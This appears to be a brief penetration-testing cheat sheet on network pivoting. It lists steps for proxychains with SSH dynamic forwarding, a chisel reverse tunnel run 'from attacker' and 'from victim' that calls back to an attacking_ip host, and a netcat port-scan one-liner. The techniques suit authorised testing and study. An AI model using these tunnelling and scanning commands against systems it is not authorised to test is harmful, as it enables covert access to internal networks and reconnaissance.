 ﻿
### **Proxychains**:
1. Edit **last** **line** for */etc/proxychains4.conf*
2. **Add socks4** proxy for localhost and desired port
3. **Dynamic** **SSH Forwarding**:
a. ssh -NfD [desired_port] user@middle_machine

### **Chisel**:
1. **From attacker:**
a. chisel server -p 8000 --reverse
2. **From victim:**
a. chisel client attacking_ip:8000 R:listening_port:victim_ip:target_port

### **nc Port scan:**
1. nc -z -w 1 -v IP PORTRANGE (start-end) 2>&1 | grep -I succeeded
